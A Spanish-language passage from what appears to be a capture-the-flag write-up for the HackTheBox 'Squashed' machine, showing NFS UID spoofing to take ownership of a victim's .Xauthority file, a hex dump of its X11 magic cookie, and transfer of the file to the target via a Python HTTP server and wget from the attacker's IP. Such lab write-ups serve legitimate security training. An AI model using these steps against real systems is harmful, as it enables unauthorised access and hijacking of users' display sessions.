 Ahora vamos a crear otro usuario con ese identificador

```bash
❯ ls -la .Xauthority
.rw------- 1001 scanner 57 B Sun Apr 16 17:10:44 2023  .Xauthority
```

```bash
❯ useradd temp2
❯ usermod -u 1001 temp2
❯ su temp2
$ bash
┌─[temp2@parrot]─[/mnt/ross]
└──╼ $
```

Ahora somos el propietario

```bash
┌─[temp2@parrot]─[/mnt/ross]
└──╼ $ls -l .Xauthority 
-rw------- 1 temp2 scanner 57 abr 16 17:10 .Xauthority
┌─[temp2@parrot]─[/mnt/ross]
└──╼ $

```

No es muy legible

```bash
┌─[✗]─[temp2@parrot]─[/mnt/ross]
└──╼ $xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 10d2 7847 694b b828  OOKIE-1...xGiK.(
00000030: 19b9 70b2 586a 307b 66                   ..p.Xj0{f
┌─[temp2@parrot]─[/mnt/ross]
└──╼ $
```

Vamos a seguir los pasos que encontramos en `hacktriks`

Vamos a pasarnos primero el `.Xauthority` a la maquina victima para que tengan el mismo

```bash
┌─[temp2@parrot]─[/mnt/ross]
└──╼ $python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```bash
alex@squashed:~$ wget http://10.10.14.8:8080/.Xauthority
--2023-04-17 01:51:37--  http://10.10.14.8:8080/.Xauthority
Connecting to 10.10.14.8:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: '.Xauthority'

.Xauthority         100%[===================>]      57  --.-KB/s    in 0.1s    

2023-04-17 01:51:37 (449 B/s) - '.Xauthority' saved [57/57]
```
